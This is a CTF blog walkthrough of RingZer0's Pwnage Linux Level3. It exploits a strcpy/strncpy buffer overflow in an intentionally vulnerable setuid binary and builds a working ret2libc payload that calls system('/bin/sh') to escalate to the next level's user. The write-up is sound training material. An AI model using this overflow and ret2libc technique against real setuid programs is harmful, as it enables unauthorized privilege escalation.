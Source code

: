 ```yaml
---
title: "R0 | Pwnage Linux - Level3"
layout: post
date: 2019-08-23
tag:
- Pwnage
- x86 
- Linux
- Ret2libc
- walktrhough
- CTF 
category: blog
author: Srbx7
description: R0 | Pwnage Linux - Level3
---
```



`# file level3`

```
level3: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=2336e9f02b6ccbbcccd445196c761004ba06c764, with debug_info, not stripped
```

> Has a setuid

> Is an ELF 32-bit LSB exec

> Is compile for Intel x86 processors


`# checksec level3`

```
[*] '/root/ringzer0team/pwnageLinux/level3/level3'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

`# cat /levels/level3.c`

```c
// Created by Hidden (hidden@undernet.org)

#include <stdio.h>
#include <stdlib.h>
#include <string.h>


char* concat(char *buf, char *s1, char *s2)
{
	// Copy s1 to buf
	strcpy(buf, s1);
	// Append s2 to s1 into buf
	strcat(buf, s2);
	return buf;
}


int main(int argc, char **argv)
{
	char buf[256];
	char buf1[128];
	char buf2[128];

	if (argc != 3)
		return 0;

	// Copy argv[1] to buf1 and argv[2] to buf2
	strncpy(buf1, argv[1], sizeof(buf1));
	strncpy(buf2, argv[2], sizeof(buf2));

	concat(buf, buf2, buf1);
	printf("String result: %s\n", buf);
	return 0;
}
```

> Well okay, if it's not already perceived, a good exercise would be for you to spot any anomaly, a use that differs from one point to another in this code...

> Need a hint? Okay, what differs from `strcpy()` and `strncpy()` ?

Problem with `strncpy( char *dest, const char *src, size_t n )`: If there is no null character among the first n character of src, the string placed in dest will not be null-terminated. So `strncpy()` does not guarantee that the destination string will be NULL terminated. Hence, it's memory can't be directly overflow w/ that function.

Problem with `strcpy( char *dest, const char *src )`: The `strcpy()` function does not specify the size of the destination array, so buffer overrun is often a risk (as `strcat and strcmp`).

Fine! By fulling the `buf2` buffer w/o null byte, it's possible to overflow the `buf`. In other words, since `buf1` is right next (below) `buf2` on the stack and `strcpy` function stop copying when it gets a null char, `buf2` will looks something like `buf2` + `buf1`.

```
|      128      | arg2 -> buf2 -> s1
|      128      | arg1 -> buf1 -> s2
|      256      | buf 
|      ...      | 
| return_adress |
```

```bash
level3@lxc-pwn-x86:/levels$ ./level3 A `python -c 'print "\x42" * 127'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBA
										^
```

```bash
Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
31		concat(buf, buf2, buf1);
(gdb) x/100wx $eax-100
0xffffd98c:	0x00000000	0xf7ffd000	0x08048260	0xf7ffd000
0xffffd99c:	0xf7ffd53c	0xffffd9b8	0xf7e219f8	0x00000000
0xffffd9ac:	0xffffdaa4	0xf7fe87eb	0x00000000	0xf7fcc000
0xffffd9bc:	0xf7fcc000	0xffffdbf8	0xf7feeff0	0xffffdc24
0xffffd9cc:	0xf7ea357c	0xf7fcc000	0xf7fcc000	0x00000000
0xffffd9dc:	0x0804854a	0xffffd9f0	0xffffddd0	0x00000080
0xffffd9ec:	0xf7fe2f60	0x42424242	0x42424242	0x42424242
0xffffd9fc:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda0c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda1c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda2c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda3c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda4c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda5c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda6c:	0x00000000	0x00000041	0x00000000	0x00000000 <---------- *
			^^^^^^^^^^
```

```bash
level3@lxc-pwn-x86:/levels$ ./level3 A `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAA
										 ^^
```

```bash
Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
31		concat(buf, buf2, buf1);
(gdb) x/100wx $eax-100
0xffffd98c:	0x00000000	0xf7ffd000	0x08048260	0xf7ffd000
0xffffd99c:	0xf7ffd53c	0xffffd9b8	0xf7e219f8	0x00000000
0xffffd9ac:	0xffffdaa4	0xf7fe87eb	0x00000000	0xf7fcc000
0xffffd9bc:	0xf7fcc000	0xffffdbf8	0xf7feeff0	0xffffdc24
0xffffd9cc:	0xf7ea2a15	0xf7fcc000	0xf7fcc000	0x00000000
0xffffd9dc:	0x0804854a	0xffffd9f0	0xffffddcd	0x00000080
0xffffd9ec:	0xf7fe2f60	0x42424242	0x42424242	0x42424242
0xffffd9fc:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda0c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda1c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda2c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda3c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda4c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda5c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda6c:	0x42424242	0x00000041	0x00000000	0x00000000 <---------- *
			^^^^^^^^^^
```

Since `buf2` has to be exactly 128-byte w/o null char (e.g.: bigger values are just going to be ignored by `strncpy` function), let's play w/ `buf1` and try to some value to make crash the program.

```bash
level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 69'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 70'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Several methods can make it possible to execute arbitrary code, in particular by using a global variable in which there is a shellcode and the address is known beforehand. Although, I prefered to play a bit more with the basic gdb commands on the server to get more familiar w/ the basics and `ret2libc`.

```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e56940 <system>
(gdb) find 0xf7e56940, +99999999999, "/bin/sh"
0xf7f7502b
warning: Unable to access 16000 bytes of target memory at 0xf7fcedb3, halting search.
1 pattern found.
```

Exploit and grab the flag!

```bash
level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 64 + "\x40\x69\xe5\xf7"+ "CCCC"  + "\x2b\x50\xf7\xf7"'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@i��CCCC+P��AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@i��CCCC+P��
level4@lxc-pwn-x86:/levels$ wc -l /home/level4/.pass
1 /home/level4/.pass
level4@lxc-pwn-x86:/levels$ 
```
